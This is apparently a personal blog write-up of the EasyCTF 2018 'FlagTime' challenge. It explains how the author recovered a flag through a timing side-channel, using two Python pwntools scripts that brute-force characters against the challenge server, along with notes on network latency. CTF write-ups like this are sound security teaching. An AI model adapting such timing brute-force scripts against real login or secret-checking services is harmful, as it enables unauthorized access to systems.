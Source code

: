 ```yaml
---
layout: post
title: EasyCTF'18 - FlagTime writeup
date: 2018-02-24
categories: ['writeup']
---
```

## Description
> This problem is so easy, it can be solved in a matter of seconds. Connect to _`c1.easyctf.com:12482`_.

___
## Thought process 

So the moment I read the title and description I knew it was something like a [Time-Based Blind SQL Injection](http://www.sqlinjection.net/time-based/){:target="_blank"}  
<br/>
I experimented with different values to see if I could find a pattern ...

* When the character is wrong, the time taken for the reply is short
![wrong](/assets/images/flagtime-1.gif)

* A correct character resulted in a slightly longer delay in the reply (2s)
![right](/assets/images/flagtime-2.gif)

* To test this theory, I tested the first part of the flag   
 *(which is already known as the standard flag format)*
![easyctf{](/assets/images/flagtime-3.gif)
**<u>This took a total of 6 seconds, ~1 second for each correct character</u>**

<br/>
#### After that I wrote a script to brute force the flag based on a known characterlist:

``` python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	sum = 0
	for t in range(3):
		start = time.time()
		send_msg(s)
		diff = time.time() - start
		sum += diff
	sum = sum / 3
	return sum

#easyctf{e@o%
flag = "easyctf{e@o%Kx3b5"   #the flag is built by adding the "winner" of each round
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@#$%^&*_-=+"
while True:
	
	buff = []

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		buff.append(timeDiff)

	#get the max of all times
	winner = max(buff)
	i = buff.index(winner)

	#add to flag
	flag += chars[i]
	print ">",flag
		
```
_Unfortunately the script was not performing as I expected ..._   

Due to this challenge being hosted in the United States, <u>there was a lot of fluctuation in RTT</u> (Round Trip Time) which affects the script's accuracy. 

 ___    

I left the script to run while working on other challenges and when I checked an hour later I got `easyctf{e@o%Kx3b5` -- basically gibberish :confused:   
  
It breaks because the script only knows how to pick the character which took the longest time. I tried to compensate for the fluctations by taking the average of 3 runs which wasted half a day and didn't help at all.

#### As an example: 
![rip](/assets/images/flagtime-4.gif)

___

I heard others mentioning running their script from a server they rented from Amazon Web Services (located in the US) so I thought I could do the same, but then I remembered I ran out of free Digital Ocean credits and I also didn't want to spend my AWS credits on a challenge like this, so I left the challenge on hold until further notice ...

After a good night's rest, it suddenly came to me that EasyCTF did provide their own **shell server** that players could SSH into ! Why didn't I think of that sooner ? I revised my current script into a faster version and stuck it into the EasyCTF shell server.

I was pleasantly surprised to find that their shell server already had the *pwn* module pre-installed :D
Setting it up on my machine was quite painful but I did learn that `sudo -H pip install --upgrade <package>` solves pretty much everything ~

```python
#!/usr/bin/python
from pwn import *

#send and receive response
def send_msg(msg):
	conn = remote("c1.easyctf.com",12482)
        conn.recv() #"enter the flag:"
        conn.sendline(msg)
        data = conn.recvuntil('\n')
        if not data.rstrip() == 'no':
		print(data)
		exit()

#returns the time taken for a particular string
def getTime(s):
	start = time.time()
	send_msg(s)
	diff = time.time() - start
	return diff

flag = ""  #easyctf{ezx  (not sure if x or _ they seem close)
chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789{}!@$_"

while True:
	
	max = 0
	maxChar = None

	#pick a new character to try
	for c in chars:
		timeDiff = getTime(flag+c)
		print flag+c,"->",timeDiff
		if timeDiff > max:
			maxChar = c
			max = timeDiff

	#add to flag
	
	flag += maxChar
	print "====>",flag
```
It still wasn't as fast as I'd like, as the time delay in correct characters increases for each character, it became increasingly difficult to bruteforce. 

Based on the length of the characterlist I used : 
* Brute-forcing the first character (0.5 seconds for each reply) would need <u>38 seconds</u> for 1 whole round
* Brute-forcing the 10th character (10 seconds for each reply) would need **<u>12 minutes</u>** for 1 whole round :( 

So my strategy was to let the script brute force the flag whilst I did trial and error beside it at the same time
![many](/assets/images/flagtime-5.jpg)

Once parts of the flag were uncovered, the rest of the *word* would become trivially guessable, the below example shows variations of *"timing"*  
  
eg. `easyctf{ez_t1m` **->** `easyctf{ez_timing` / `easyctf{ez_t1m1ng`  

In the end the flag was **`easyctf{ez_t1m1ng_4ttack!}`** :checkered_flag:

___

## Things I learnt from this challenge
* How to setup and use the pwn library (for connecting to ports/sockets) 
* This type of attack is called timing attack
* The effect of physical distance between networks that can affect results significantly 


Overall I'm pretty proud that out of 1000-over teams I was one of the first 120 to solve this challenge, although its a Miscallaneous challenge I definitely got a lot out of it ! 
